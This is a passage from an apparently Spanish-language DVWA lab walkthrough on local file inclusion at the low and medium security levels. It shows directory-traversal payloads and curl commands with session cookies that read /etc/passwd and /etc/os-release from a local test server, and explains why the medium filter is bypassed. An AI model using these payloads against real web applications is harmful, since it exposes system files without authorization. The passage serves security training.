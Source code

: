 Con el nivel de seguridad bajo seleccionado, no hay ninguna protección, se puede explotar haciendo directory traversal:

```
# Desde el navegador:
?page=../../../../../etc/passwd

# Desde la consola:
file="/etc/os-release";curl -s http://127.0.0.1/vulnerabilities/fi/\?page=../../../../..$file --cookie "PHPSESSID=e5di55blqu41hcnhsk1cv7l1d1;security=low" | sed '/DOCTYPE/q' | sed '$ d'
```

![File inclusion](https://github.com/sapellaniz/dvwa/blob/master/img/file-inclusion-01.png)

### Security: medium
Con el nivel de seguridad medio seleccionado, hay algunos badchars para RFI y los de LFI son "../" y "..\", pero esto no es una solución eficaz:

```
# Desde el navegador:
?page=/etc/passwd

# Desde la consola:
file="/etc/os-release";curl -s http://127.0.0.1/vulnerabilities/fi/\?page=$file --cookie "PHPSESSID=e5di55blqu41hcnhsk1cv7l1d1;security=medium" | sed '/DOCTYPE/q' | sed '$ d'
```

![File inclusion](https://github.com/sapellaniz/dvwa/blob/master/img/file-inclusion-02.png)
